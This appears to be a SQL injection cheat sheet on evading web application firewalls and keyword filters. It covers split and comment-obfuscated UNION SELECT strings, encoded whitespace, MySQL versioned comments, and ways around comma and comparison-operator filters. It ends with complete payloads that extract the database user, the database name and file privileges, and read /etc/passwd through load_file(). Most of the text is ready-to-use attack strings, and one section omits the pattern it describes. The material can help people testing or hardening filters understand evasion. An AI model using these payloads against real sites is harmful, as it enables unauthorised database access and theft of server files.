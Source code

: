 We use **obfuscated versions** of `UNION SELECT` so that the exact string doesn’t appear.
```sql
UN/**/ION SE/**/LECT
```
### PHP-Fusion
**What it does:** It applies a **case-insensitive regex match** on the SQL query to look for the **exact pattern**:
✅ **How to Bypass:** Split the keyword so the pattern `union.*select` isn't matched.
```sql
UNIunionON SELECT
```
### WAFs that remove whitespace or comments
Some advanced WAFs **strip whitespace** or **collapse comments**, so tricks like `UN/**/ION` don’t work. Use **tab**, **newlines**, or unusual spacing:
```sql
UNION/**/SELECT
UNION%0ASELECT   -- (newline)
UNI%09ON SEL%09ECT -- (tab)
```
### MySQL-specific obfuscation
`/*!50000SELECT*/` → This is a **MySQL versioned comment**, which runs the code only if MySQL version ≥ 5.0.
```sql
UNION /*!50000SELECT*/ 1,2,3
```
The filter might not see `SELECT`, but MySQL executes it!
### Using `INFORMATION_SCHEMA`
```sql
from information_schema.tables --Blocked
FROM INFOrmation_sche/**/ma.TABLES --Bypass
```
### Use of `greatest()` to bypass filtered comparison operators (`<`, `>`, etc.)
In **Boolean-based blind SQL injection**, we often use operators like `<`, `>`, `<=`, `>=` to guess ASCII values of characters in data (like the username):
```sql
ascii(mid(user(), 1, 1)) < 150 --Blocked
SELECT greatest(ascii(mid(user(),1,1)),150)=150; --Bypass
```
### `substr(user() from x for y)` — bypassing comma filters
Some WAFs **block the use of commas**, especially in functions like:
```sql
ascii(mid(user(),1,1)) = 109 --Blocked
ascii(substr(user() from 1 for 1)) = 109 --Bypass
```



```sql
damn’UnIUNIONon/**/sESELECTlect/**/1,2,user(),4&&1=’1 --getting user
damn’UnIUNIONon/**/sESELECTlect/**/1,2,database(),4&&1=’1 --getting database
damn’UnIUNIONon/**/sESELECTlect/**/1,2,File_priv,4/**/from/**/mysql.user/**/where/**/user=user()||1=’1 --getting privlage
damn’UnIUNIONon/**/sESELECTlect/**/1,2,load_file(‘/etc/passwd’),4||1=’1 --reading passwd
```
